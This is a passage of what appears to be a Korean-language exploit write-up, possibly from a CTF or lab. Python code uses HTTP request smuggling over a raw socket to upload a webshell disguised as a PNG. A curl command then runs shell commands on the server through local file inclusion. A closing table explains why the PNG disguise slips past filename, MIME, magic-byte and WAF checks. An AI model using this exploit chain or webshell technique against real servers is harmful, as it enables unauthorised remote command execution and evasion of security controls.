 ```python
        + smuggled_request
    )

    try:
        sock = socket.socket()
        sock.connect((host, port))
        print("[*] Connected!\n")

        print("[*] Sending smuggling payload...")
        sock.sendall(payload)
        print("[+] Sent!\n")

        # 첫 번째 응답
        sock.settimeout(2)
        resp1 = sock.recv(4096)
        print("[*] Response 1 received\n")

        # 트리거 요청
        sock.sendall(b'GET /index.php HTTP/1.1\r\nHost: localhost:9000\r\n\r\n')
        resp2 = sock.recv(8192)

        if b'"success":true' in resp2:
            print("[+] ✅ PNG webshell uploaded!")
            print(f"[+] URL: http://{host}:{port}/uploads/{filename}")
            print(f"\n[*] Exploit via LFI:")
            print(f"    curl 'http://{host}:{port}/support.php?lang=../../uploads&page={filename}&c=id'")
        else:
            print("[!] Upload may have failed")
            print(resp2[:300].decode('utf-8', errors='ignore'))

        sock.close()
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    smuggle_png_webshell()
```

**실행**:
```bash
python3 smuggle_png_webshell.py
```

---

## 🎯 PNG 웹쉘의 장점

| 특징 | PHP 웹쉘 | PNG 웹쉘 |
|-----|---------|---------|
| **파일명 필터** | ❌ .php 차단됨 | ✅ .png 통과 |
| **MIME 타입 검증** | ❌ application/x-php | ✅ image/png |
| **매직 바이트 검증** | ❌ `<?php` | ✅ `\x89PNG` |
| **WAF 탐지** | ⚠️ 높음 | ✅ 낮음 (이미지로 인식) |
| **직접 실행** | ✅ 가능 | ❌ LFI 필요 |
| **은닉성** | 🔴 낮음 | 🟢 높음 |

---